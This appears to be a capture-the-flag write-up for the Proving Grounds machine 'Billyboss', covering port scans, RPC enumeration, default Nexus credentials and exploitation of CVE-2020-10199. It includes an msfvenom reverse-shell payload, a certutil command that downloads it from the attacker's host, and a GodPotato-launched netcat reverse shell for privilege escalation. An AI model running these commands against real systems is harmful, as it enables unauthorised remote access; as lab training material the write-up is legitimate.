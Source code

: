 # Billyboss

## Intro

Billyboss is a 'get to work' intermediate windows machine from offsec proving grounds.

## Enum  

Nmap scan of ports 0 - 15000.  

```
Host: 192.168.57.61 ()  Ports: 0/filtered/tcp//
21/open/tcp/ftp/Microsoft ftpd
80/open/tcp/http/Microsoft IIS httpd 10.0
135/open/tcp/msrpc/Microsoft Windows RPC
139/open/tcp/netbios-ssn/Microsoft Windows netbios-ssn
445/open/tcp/microsoft-ds?/
5040/open/tcp/unknown/
8081/open/tcp/http/Jetty 9.4.18.v20190429
```  

Nmap udp scan.  

```
137/netbios-ns
138/netbios-dgm
500/isakmp
1900/upnp
4500/nat-t-ike
5353/zeroconf
```  

Nmap stealth scan.  

```
21/ftp
80/http
135/msrpc
139/netbios-ssn
445/microsoft-ds
5040/unknown
8081/blackice-icecap
49664/
49665/
49666/
49667/
49668/
49669/
```

Enum smb services.  

`8081/tcp open  blackice-icecap`  

## UDP services.  

137 netbios-ns is a name service that supplies netbios names to the receiving machine.  
138 datagram exchange, non connection file sharing.  
500 is used by the Internet key exchange (IKE) that occurs during the establishment of secure VPN tunnels  
1900 Universal Plug N' Play (UPnP) devices to receive broadcasted messages from other UPnP devices  
4500 internet key exchange  
5353 zero-configuration protocol with dns-like commands.



## rpc  

Using rpcdump.py  

Protocols.  

```
MSDTC Connection Manager
EventLog Remoting Protocol 
Firewall and Advanced Security Protocol 
Remote Shutdown Protocol 
Security Account Manager (SAM) Remote Protocol 
Service Control Manager Remote Protocol
Task Scheduler Service Remoting Protocol
```  

Provider.  

```
BFE.DLL 
dhcpcsvc6.dll 
dhcpcsvc.dll 
FwRemoteSvr.dll 
IKEEXT.DLL 
iphlpsvc.dll 
MPSSVC.dll 
msdtcprx.dll 
nrpsrv.dll 
nsisvc.dll 
pcasvc.dll 
samsrv.dll 
schedsvc.dll 
services.exe 
srvsvc.dll 
ssdpsrv.dll 
sysmain.dll 
sysntfy.dll 
taskcomp.dll 
wbiosrvc.dll 
wevtsvc.dll 
wininit.exe 
winlogon.exe 
wscsvc.dll
```  

## http port 80  

This port has a service running on it called baGet, which is a lightweight nuGet server.  

## Nexus repository manager - port 8081  

Using the following username and password to authenticate.  

`nexus:nexus`  

Finding a rce python script on exploitDB with the following cve.  

`CVE-2020-10199`  

After testing the exploit with the ping command, which did work, I tried a powershell reverse shell which did not work. Looking at the error, I think it might be the parenthesis and brackets mangling. After trying the command in base 64 it still did not work. Trying a file upload.  

Creating a reverse shell exe.  

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.54 LPORT=21 -f exe > /home/kali/shell.exe`  

Getting the file from my local machine with the following command.  

`cmd.exe /c certutil.exe -f -urlcache -split http://192.168.49.54:8000/shell.exe c:/windows/temp/shell.exe`  

Executing the shell file with the following command, and getting a shell back.  

`cmd.exe /c c:/windows/temp/shell.exe`  

## PrivEsc  

Listing the users directory.  

```
Administrator
BaGet
nathan
```  

This build is vuln with GodPotato and seImpersonate token.  

`.\potato.exe -cmd 'c:\Users\nathan\Nexus\nexus-3.21.0-05\nc64.exe 192.168.45.167 80 -e cmd.exe'`

This would not run in windows temp folder only nathans folder, nc is used to keep the process from exiting.  

GodPotato can be found at.  

`https://github.com/BeichenDream/GodPotato/releases?ref=benheater.com`
